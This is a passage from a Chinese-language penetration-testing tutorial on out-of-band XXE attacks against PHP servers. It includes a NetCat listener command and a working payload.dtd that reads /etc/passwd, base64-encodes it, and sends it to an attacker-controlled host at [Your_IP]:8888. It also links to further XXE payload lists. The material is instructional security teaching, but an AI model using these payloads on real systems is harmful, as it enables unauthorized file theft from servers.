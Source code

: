 * 你刚刚创建的 DTD 文件指示易受攻击的服务器读取 `/etc/ passwd` 然后尝试使用我们的敏感数据向我们的攻击者机器发出 Web 请求。为了确保我们收到响应，我们需要启动 Web 服务器来托管 DTD 文件并设置 NetCat 监听器
    * nc -l -p 8888

* 你将遇到“检测到实体引用循环”类型的错误,具体的报错内容大概是：“Detected an entity reference loop in
\<b>/var/www/html/xxe.php</b> on line \<b>20"。在进行 XXE 攻击时，通常会遇到解析器错误。很多时候，XXE 解析器仅仅允许某些字符，因此读取带有特殊字符的文件会报错。我们可以做些什么来解决这个问题？在使用 PHP 的情况下，我们可以使用 PHP 输入和输出流（ http://php.net/manual/en/wrappers.php.php ）来读取本地文件，并使用 `php://filter/read=convert.base64-encode` 对它们进行 base64 编码。让我们重启我们的 NetCat 监听器并更改我们的 payload.dtd 文件以使用此功能：

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%all;
```

![](img/chapter_3/3-45.png)

一旦我们重放我们新修改的请求，我们现在就可以看到我们的受害者服务器首先获取并运行了 payload.dtd 文件，然后监听8888端口的 NetCat 处理程序发出二次 Web 请求。当然，GET 请求将采用 base64编码并且我们也将必须对请求进行解码。

更多 XXE payload：
* https://gist.github.com/staaldraad/01415b990939494879b4 
* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt
 
## 本章总结
虽然这只是你可能遇到的所有不同网络攻击的一小部分，但我希望这些案例能打开你的视野，关于更现代的框架（Node.js）是如何引入旧的和新的攻击。许多常见的应用程序漏洞扫描器往往会错过很多这些更复杂的漏洞，因为它们是基于特定的语言或框架的。我想提出的要点是，为了进行充分的攻击活动，你需要真正理解语言和框架。
